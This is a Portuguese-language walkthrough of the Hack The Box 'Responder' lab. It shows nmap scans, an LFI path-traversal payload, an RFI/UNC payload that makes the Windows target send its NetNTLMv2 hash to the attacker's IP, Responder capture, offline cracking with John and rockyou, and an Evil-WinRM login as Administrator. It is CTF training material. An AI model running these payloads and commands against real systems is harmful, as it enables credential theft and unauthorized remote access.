






# Hack The Box — Starting Point — Responder

## Objetivo

Este lab ensina uma cadeia de ataque em Windows:

```text
Nmap → HTTP/PHP → parâmetro page= → File Inclusion → SMB/NTLM
→ Responder → captura de hash NetNTLMv2 → John the Ripper
→ senha do Administrator → Evil-WinRM → flag
```

A ideia principal foi fazer o servidor Windows se conectar na nossa máquina. Quando ele fez isso, enviou uma autenticação NTLM. Capturamos esse hash com o Responder, quebramos com John e usamos a senha para acessar o Windows via WinRM.

---

## Alvo

```text
Máquina: Responder
IP: 10.129.98.218
Sistema: Windows
Serviço inicial: HTTP
Porta: 80/tcp
```

---

## 1. Enumeração com Nmap

Primeiro, buscamos portas abertas:

```bash
nmap 10.129.98.218
```

A porta HTTP estava aberta:

```text
80/tcp open http
```

Depois, detectamos a versão do serviço:

```bash
nmap -sV -p 80 10.129.98.218
```

Resultado:

```text
80/tcp open http Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
```



Interpretação:

```text
Apache      Servidor web
Win64       O servidor roda em Windows
PHP/8.1.1   Linguagem usada para gerar páginas
```

Resposta da pergunta sobre linguagem:

```text
PHP
```

---

## 2. Descoberta do hostname

Ao acessar o IP com curl:

```bash
curl http://10.129.98.218
```

A resposta indicava redirecionamento para:

```text
http://unika.htb/
```

Então adicionamos o domínio no arquivo `/etc/hosts`:

```bash
sudo nano /etc/hosts
```

Linha adicionada:

```text
10.129.98.218 unika.htb
```

Depois acessamos:

```text
http://unika.htb
```

Isso foi necessário porque o servidor usa hostname/virtual host. Acessar por IP pode não carregar o site correto.

---

## 3. Parâmetro `page`

Ao trocar o idioma do site, a URL usava:

```text
?page=
```

Exemplo:

```text
http://unika.htb/index.php?page=french.html
```

A resposta da pergunta era:

```text
page
```

Esse parâmetro é importante porque a aplicação carrega arquivos com base no valor passado nele.

---

## 4. LFI e RFI

### LFI — Local File Inclusion

LFI é quando o site permite carregar um arquivo local do próprio servidor.

Exemplo:

```text
?page=../../../../../../../../windows/system32/drivers/etc/hosts
```

Resumo:

```text
LFI = arquivo local do servidor
```

### RFI — Remote File Inclusion

RFI é quando o site tenta carregar um arquivo remoto.

Exemplo:

```text
?page=//10.10.15.206/test
```

Resumo:

```text
RFI = arquivo/recurso remoto
```

RFI não é IDOR. IDOR é trocar IDs para acessar recursos de outros usuários, por exemplo:

```text
/user?id=10 → /user?id=11
```

---

## 5. Payload usado

Usamos um payload apontando para o nosso IP da VPN:

```text
http://unika.htb/index.php?page=//10.10.15.206/test
```

Esse formato:

```text
//10.10.15.206/test
```

em Windows vira um caminho UNC/SMB, equivalente a:

```text
\\10.10.15.206\test
```

Ou seja, o servidor Windows tentou acessar um compartilhamento de rede na nossa máquina.

---

## 6. Responder

Antes de acessar o payload, iniciamos o Responder:

```bash
sudo responder -I tun0
```



Explicação:

```text
sudo       roda como administrador
responder  ferramenta que responde requisições e captura hashes NTLM
-I         escolhe a interface de rede
tun0       interface da VPN do Hack The Box
```

Usamos `tun0` porque o alvo precisa se conectar de volta na nossa máquina pela VPN.

Regra prática:

```text
Alvo → minha máquina = IP da tun0
Minha máquina → alvo = IP do alvo
```

Para ver seu IP da tun0:

```bash
ip a
```

---

## 7. Captura do hash NetNTLMv2

Com o Responder rodando, acessamos:

```text
http://unika.htb/index.php?page=//SEU_IP_TUN0/test
```

O servidor tentou acessar nossa máquina via SMB e enviou uma autenticação NTLM.

O Responder capturou:

```text
[SMB] NTLMv2-SSP Client   : 10.129.98.218
[SMB] NTLMv2-SSP Username : RESPONDER\Administrator
[SMB] NTLMv2-SSP Hash     : Administrator::RESPONDER:...
```



A linha importante começa com:

```text
Administrator::RESPONDER:
```

Isso não é a senha. É um hash NetNTLMv2.

---

## 8. Salvando o hash

Os logs do Responder ficam em:

```bash
/usr/share/responder/logs/
```

Listamos:

```bash
ls /usr/share/responder/logs/
```

Copiamos o hash para um arquivo simples:

```bash
cp /usr/share/responder/logs/SMB-NTLMv2-SSP-10.129.98.218.txt hash.txt
```

Agora o arquivo `hash.txt` contém o hash que será quebrado.

---

## 9. Quebra com John the Ripper

Usamos John com a wordlist rockyou:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```



Se `rockyou.txt` não existir, provavelmente está compactado:

```bash
ls /usr/share/wordlists/
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
```

Depois rode novamente:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Resultado encontrado:

```text
badminton (Administrator)
```

Senha:

```text
badminton
```

Para ver novamente:

```bash
john hash.txt --show
```

### Isso foi brute force?

Foi melhor chamar de **cracking offline com wordlist**.

```text
Brute force online:
testa senha direto no serviço/site.

Cracking offline:
você já tem o hash e testa senhas localmente na sua máquina.
```

---

## 10. Acesso com Evil-WinRM

Agora temos:

```text
Usuário: Administrator
Senha: badminton
```

O lab indica uso de WinRM, um serviço de acesso remoto do Windows.

Porta padrão:

```text
5985/tcp
```

A ferramenta usada:

```text
evil-winrm
```

Conectamos:

```bash
evil-winrm -i 10.129.98.218 -u Administrator -p badminton
```



Explicação:

```text
-i 10.129.98.218   IP do alvo
-u Administrator   usuário
-p badminton       senha
```

Depois disso, o terminal vira um PowerShell remoto:

```text
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

Isso significa que estamos dentro da máquina Windows.

---

## 11. Procurando a flag

Listamos os usuários:

```powershell
dir C:\Users
```

Resultado:

```text
Administrator
mike
Public
```

Verificamos os Desktops:

```powershell
dir C:\Users\Administrator\Desktop
dir C:\Users\mike\Desktop
```

Encontramos:

```text
C:\Users\mike\Desktop\flag.txt
```

Resposta da pergunta:

```text
mike
```

---

## 12. Lendo a flag

No PowerShell, podemos ler arquivo com:

```powershell
cat C:\Users\mike\Desktop\flag.txt
```

ou:

```powershell
type C:\Users\mike\Desktop\flag.txt
```

ou:

```powershell
Get-Content C:\Users\mike\Desktop\flag.txt
```



A flag foi exibida no terminal.

Para writeup público, é melhor substituir a flag real por:

```text
<FLAG>
```

---

## Comandos principais

### Nmap

```bash
nmap 10.129.98.218
nmap -sV -p 80 10.129.98.218
```

### Hosts

```bash
sudo nano /etc/hosts
```

Adicionar:

```text
10.129.98.218 unika.htb
```

### Responder

```bash
sudo responder -I tun0
```

Payload:

```text
http://unika.htb/index.php?page=//SEU_IP_TUN0/test
```

### Hash

```bash
ls /usr/share/responder/logs/
cp /usr/share/responder/logs/SMB-NTLMv2-SSP-10.129.98.218.txt hash.txt
```

### John

```bash
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
john hash.txt --show
```

### Evil-WinRM

```bash
evil-winrm -i 10.129.98.218 -u Administrator -p badminton
```

### PowerShell

```powershell
dir C:\Users
dir C:\Users\Administrator\Desktop
dir C:\Users\mike\Desktop
cat C:\Users\mike\Desktop\flag.txt
```

---

## Fluxo simplificado

```text
1. Nmap encontrou HTTP na porta 80.
2. O serviço revelou Apache em Windows com PHP.
3. O site redirecionava para unika.htb.
4. Adicionamos unika.htb no /etc/hosts.
5. Encontramos o parâmetro page=.
6. O parâmetro permitia carregar arquivos.
7. Usamos um caminho remoto SMB apontando para nossa tun0.
8. Rodamos o Responder.
9. O Windows tentou autenticar na nossa máquina.
10. O Responder capturou o hash NetNTLMv2.
11. Quebramos o hash com John + rockyou.
12. A senha encontrada foi badminton.
13. Entramos via Evil-WinRM.
14. Encontramos flag.txt no Desktop do usuário mike.
15. Lemos a flag.
```

---

## Conceitos aprendidos

```text
Nmap          Descoberta de portas e versões
PHP           Linguagem usada pelo site
/etc/hosts    Mapeamento local de domínio para IP
page=         Parâmetro usado para carregar arquivos
LFI           Inclusão de arquivo local
RFI           Inclusão/carregamento de arquivo remoto
UNC path      Caminho de rede do Windows
SMB           Protocolo de compartilhamento Windows
NTLM          Autenticação Windows
NetNTLMv2     Hash capturado em autenticação NTLM
Responder     Captura hashes NTLM
John          Quebra hashes offline
rockyou.txt   Wordlist famosa
WinRM         Acesso remoto Windows
Evil-WinRM    Shell remoto via WinRM
```

---

## Conclusão

Este lab foi importante porque juntou várias peças em uma cadeia única:

```text
File Inclusion → SMB/NTLM → Responder → hash → John → senha → WinRM → flag
```

A lógica principal foi:

```text
O site carregava arquivos pelo parâmetro page.
Forçamos o servidor a buscar um caminho remoto na nossa máquina.
Como era Windows, ele tentou autenticar via SMB.
O Responder capturou o hash.
O John quebrou o hash.
Com a senha, acessamos a máquina via WinRM.
```

Esse lab marca uma virada: sai da enumeração básica e começa a mostrar como vulnerabilidades e comportamentos do Windows podem ser encadeados até virar acesso remoto.
